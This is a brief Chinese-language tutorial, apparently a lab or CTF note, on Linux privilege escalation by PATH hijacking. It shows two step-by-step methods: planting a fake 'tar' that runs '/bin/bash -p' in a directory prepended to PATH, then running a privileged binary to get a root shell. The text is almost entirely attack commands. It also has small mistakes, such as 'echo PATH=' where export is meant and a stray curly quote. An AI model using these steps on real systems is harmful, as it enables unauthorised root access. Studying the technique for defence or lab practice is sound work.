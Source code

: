 ## 有些文件可执行，且其中包含一个命令去调用另一个程序，而被调用的程序并没用路径引用，那么可以通过改系统路径的方式来提权
例如有个file文件
```
strings file
```
得
```
tar xxxxx xxxxx  
/bin/vim xxx   xxx
```

那么其中，可以通过tar来提权

### 方法一：
1.先移动到另一个路径下
```
例：cd /home/jhinjax
```

2.将该路径添加到系统PATH里
```
echo PATH=/home/jhinjax:$PATH
```
此时查看系统路径的话可以看到该路径已被添加
```
echo $PATH
/home/jhinjax:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

3.在该路径下创建一个相同的程序
```
echo "/bin/bash -p" > tar
```
加执行权限
```
chmod  +x tar
```

4.最后回到file存在的路径，运行file即可变为root
```
./file
```


### 方法二：
1.cd到tmp目录下，因为需要创建和执行文件的权力
```
cd /tmp
```

2.创建对应的执行文件，并赋予其可执行的权限
```
echo “/bin/bash" > tar
chmod 777 tar
```

3.添加PATH，这也是跟上面有点不同的地方
```
export PATH=/tmp:$PATH
```
跟上面不同的是，这里是将tmp添加到系统路径中，上面的是将用户目录添加到系统路径中

4.执行file，即可获取root权限

```
./file
```



